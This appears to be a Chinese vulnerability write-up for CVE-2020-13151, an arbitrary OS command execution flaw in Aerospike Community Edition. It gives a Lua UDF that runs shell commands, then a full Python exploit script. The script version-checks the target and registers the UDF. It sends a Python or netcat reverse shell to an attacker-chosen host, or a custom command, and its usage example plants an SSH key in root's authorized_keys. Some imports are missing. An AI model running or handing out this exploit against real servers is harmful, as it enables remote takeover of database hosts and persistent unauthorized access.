 <h1>（CVE-2020-13151）Aerospike 数据库主机命令执行漏洞</h1>
<h2>一、漏洞简介</h2>
<p>攻击者借助特制的UDF利用该漏洞以当前用户权限在该集群的所有节点上执行任意的操作系统命令。</p>
<h2>二、漏洞影响</h2>
<p>Aerospike 社区版 <5.1.0.3</p>
<h2>三、复现过程</h2>
<p>首先导入CVE-2020-13151.lua</p>
<pre><code>function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end</code></pre>
<p>
3.png<br>
创建单记录测试数据集以进行以下操作：<br>
4.png<br>
然后在最终在我们连接的主机上执行命令：<br>
5.png<br>
</p>
<h3>poc</h3>
<p>
CVE-2020-13151<br>
1.png<br>
2.png<br>
</p>
‘ ```
import string

# requires aerospike package from pip
import aerospike
# if this isn't installing, make sure os dependencies are met
# sudo apt-get install python-dev
# sudo apt-get install libssl-dev
# sudo apt-get install python-pip
# sudo apt-get install zlib1g-dev

PYTHONSHELL = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&"""
NETCATSHELL = 'rm /tmp/ft;mkfifo /tmp/ft;cat /tmp/ft|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/ft&'

def _get_client(cfg):
    try:
        return aerospike.client({
            'hosts': [(cfg.ahost, cfg.aport)],
             'policies': {'timeout': 8000}}).connect()

    except Exception as e:
        print(f"unable to access cluster @ {cfg.ahost}:{cfg.aport}\n{e.msg}")

def _send(client, cfg, _cmd):
    try:
        print(client.apply((cfg.namespace, cfg.setname, cfg.dummystring ), 'poc', 'runCMD', [_cmd]))
    except Exception as e:
        print(f"[-] UDF execution returned {e.msg}")

def _register_udf(client, cfg):
    try:
        client.udf_put(cfg.udfpath)
    except Exception as e:
        print(f"[-] whoops, couldn't register the udf {cfg.udfpath}")
        raise e

def _random_string(l):
    return ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(l)])

def _populate_table(client, cfg):
    ns = cfg.namespace
    setname = cfg.setname
    print(f"[+] writing to {ns}.{setname}")
    try:
        rec = cfg.dummystring
        client.put((ns, setname, rec), {'pk':cfg.dummystring})
        print(f"[+] wrote {rec}")
    except Exception as e:
        print(f"[-] unable to write record: {e.msg}")
        try:
            if e.msg.startswith('Invalid namespace'):
                print("Valid namespaces: ")
                for n in _info_parse("namespaces", client).split(";"):
                    print(n.strip())
        except:
            pass
        sys.exit(13)

def _info_parse(k, client):
    try: 
        return [i[1] for i in client.info_all(k).values() ][0]
    except Exception as e:
        print(f"error retrieving information: {e.msg}")
        return []

def _is_vuln(_mj, _mi, _pt, _bd):
    fixed = [5,1,0,3]
    found = [_mj, _mi, _pt, _bd]

    if fixed == found:
        return False

    for ix, val in enumerate(found):
        if val < fixed[ix]:
            return True
        elif val == fixed[ix]:
            pass
        else:
            return False


def _version_check(client):
    print("[+] aerospike build info: ", end="")
    try:
        _ver = _info_parse("build", client)
        print(_ver)
        mj, mi, pt, bd = [int(i) for i in _ver.split('.')]
        if _is_vuln(mj, mi, pt, bd):
            print("[+] looks vulnerable")
            return
        else:
            print(f"[-] this instance is patched.")
            sys.exit(0)

    except Exception as e:
        print(f"[+] unable to interpret build number due to {e}")
        print("[+] continuing anyway... ")

def _exploit(cfg):
    client = _get_client(cfg)
    
    if not client:
        return

    _version_check(client)

    print(f"[+] populating dummy table.")
    _populate_table(client, cfg)

    print(f"[+] registering udf")
    
    _register_udf(client, cfg)

    if cfg.pythonshell or cfg.netcatshell:
        sys.stdout.flush()
        print(f"[+] sending payload, make sure you have a listener on {cfg.lhost}:{cfg.lport}", end="")
        sys.stdout.flush()
        for i in range(4): 
            print(".", end="")
            sys.stdout.flush()
            sleep(1)

        print(".")
        _send(client, cfg, PYTHONSHELL.format(ip=cfg.lhost,port=cfg.lport) if cfg.pythonshell else NETCATSHELL.format(ip=cfg.lhost,port=cfg.lport) )
    
    if cfg.cmd:
        print(f"[+] issuing command \"{cfg.cmd}\"")
        _send(client, cfg, cfg.cmd)

if __name__ == '__main__':
    if len(sys.argv) == 1:
        print(f"[+] usage examples:\n{sys.argv[0]} --ahost 10.11.12.13 --pythonshell --lhost=10.0.0.1 --lport=8000")
        print("... or ... ")
        print(f"{sys.argv[0]} --ahost 10.11.12.13 --cmd 'echo MYPUBKEY > /root/.ssh/authorized_keys'")
        sys.exit(0)

    parser = argparse.ArgumentParser(description='Aerospike UDF Command Execution - CVE-2020-13151 - POC')
    
    parser.add_argument("--ahost", help="Aerospike host, default 127.0.0.1", default="127.0.0.1")
    parser.add_argument("--aport", help="Aerospike port, default 3000", default=3000, type=int)
    parser.add_argument("--namespace", help="Namespace in which to create the record set", default="test")
    parser.add_argument("--setname", help="Name of set to populate with dummy record(s), default is cve202013151", default=None)
    parser.add_argument('--dummystring', help="leave blank for a random value, can use a previously written key to target a specific cluster node", default=None)
    parser.add_argument("--pythonshell", help="attempt to use a python reverse shell (requires lhost and lport)", action="store_true")
    parser.add_argument("--netcatshell", help="attempt to use a netcat reverse shell (requires lhost and lport)", action="store_true")
    parser.add_argument("--lhost", help="host to use for reverse shell callback")
    parser.add_argument("--lport", help="port to use for reverse shell callback")
    parser.add_argument("--cmd", help="custom command to issue against the underlying host")
    parser.add_argument('--udfpath', help="where is the udf to distribute? defaults to `pwd`/poc.lua", default=None)

    cfg = parser.parse_args()
    if not cfg.setname:
        cfg.setname = 'cve202013151'
    if not cfg.dummystring:
        cfg.dummystring = _random_string(16)
    if not cfg.udfpath:
        cfg.udfpath = os.path.join(os.getcwd(), 'poc.lua')

    assert cfg.cmd or (cfg.lhost and cfg.lport and (cfg.pythonshell or cfg.netcatshell)), "Must specify a command, or a reverse shell + lhost + lport"
    if cfg.pythonshell or cfg.netcatshell:
        assert cfg.lhost and cfg.lport, "Must specify lhost and lport if using a reverse shell"

    _exploit(cfg)``` ’
